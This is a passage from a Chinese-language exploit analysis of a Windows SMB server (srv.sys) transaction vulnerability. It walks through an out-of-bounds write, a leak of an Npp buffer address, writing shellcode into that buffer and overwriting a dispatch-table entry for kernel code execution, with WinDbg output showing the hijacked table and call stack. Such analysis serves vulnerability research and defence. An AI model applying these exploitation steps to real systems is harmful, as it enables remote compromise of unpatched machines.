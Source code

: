 这里通过write_transaction越界 写 leak_transaction-&amp;gt;OutParameters为NULL, 然后发包触发写leak_transaction操作，之后leak_transaction-&amp;gt;OutParameters便为一 Npp Buffer值了。

**5.1.2.2 leak_transaction-&gt;OutData = &amp;leak_transaction-&gt;OutParameters**

这里要事先泄露leak_transaction的基址，其实也不难，通过读leak_transaction的OutData 或 OutParameters 或 InData 字段的值再减去一定的偏移便得到了基址，使leak_transaction-&amp;gt;OutData = &amp;amp;leak_transaction-&amp;gt;OutParameters之后，发包触发leak_transaction读操作便将该Npp buffer地址泄露出来了。

**5.1.2.3 写shellcode到Npp Buffer**

将control_transaction-&amp;gt;OutData设为Npp Buffer+0x100地址，然后发包发送shellcode，便将shellcode写到了Npp Buffer+0x100内。

**5.2 代码执行**

至此，直接将Npp buffer+0x100写到之前泄露出来的函数表里

```
kd&gt; dds b76d8598
b76d8598  b7709683 srv!SrvSmbOpen2
b76d859c  b76f62a8 srv!SrvSmbFindFirst2
b76d85a0  b76f74e5 srv!SrvSmbFindNext2
b76d85a4  b76f6309 srv!SrvSmbQueryFsInformation
b76d85a8  b7707293 srv!SrvSmbSetFsInformation
b76d85ac  b77041ad srv!SrvSmbQueryPathInformation
b76d85b0  b7703ce7 srv!SrvSmbSetPathInformation
b76d85b4  b77025ad srv!SrvSmbQueryFileInformation
b76d85b8  b770367f srv!SrvSmbSetFileInformation
b76d85bc  b7705c85 srv!SrvSmbFsctl
b76d85c0  b7706419 srv!SrvSmbIoctl2
b76d85c4  b7705c85 srv!SrvSmbFsctl
b76d85c8  b7705c85 srv!SrvSmbFsctl
b76d85cc  b77047bb srv!SrvSmbCreateDirectory2
b76d85d0  8993fb28
b76d85d4  b7709a51 srv!SrvTransactionNotImplemented
b76d85d8  b76fb144 srv!SrvSmbGetDfsReferral
b76d85dc  b76faf7e srv!SrvSmbReportDfsInconsistency
b76d85e0  00000000
```

之后发包就能触发该函数调用：

```
kd&gt; k
 # ChildEBP RetAddr  
WARNING: Frame IP not in any known module. Following frames may be wrong.
00 b72b4cf0 b76e8d76 0x8993fb28
01 b72b4d04 b76e341f srv!ExecuteTransaction+0xdb
02 b72b4d7c b76ca836 srv!SrvSmbTransaction+0x7ac
03 b72b4d88 b76dad98 srv!SrvProcessSmb+0xb7
04 b72b4dac 805c6160 srv!WorkerThread+0x11e
05 b72b4ddc 80541dd2 nt!PspSystemThreadStartup+0x34
06 00000000 00000000 nt!KiThreadStartup+0x16
```
